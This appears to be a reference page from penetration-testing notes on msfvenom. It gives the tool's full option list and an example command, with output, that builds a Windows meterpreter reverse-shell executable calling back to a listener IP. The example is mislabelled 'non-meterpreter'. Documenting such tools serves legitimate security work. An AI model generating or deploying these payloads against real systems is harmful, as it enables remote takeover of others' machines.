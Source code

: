 ```yaml
---
title : "MSFvenom"
# pre : ' '
description : "MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015."
date : 2021-07-06T15:27:20+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## MSFvenom

Is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

## Installation

Install the [MetaSploit framework]({{< ref "metasploit/" >}}).

## Usage

```plain
msfvenom [options] <var=val>
```

## Flags

```plain
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Simple non-meterpreter staged payload for Windows.

```plain
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.3.93 LPORT=1235 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

## URL List

* [Offensive-Security.com - MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
* [Infinitelogins.com - MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

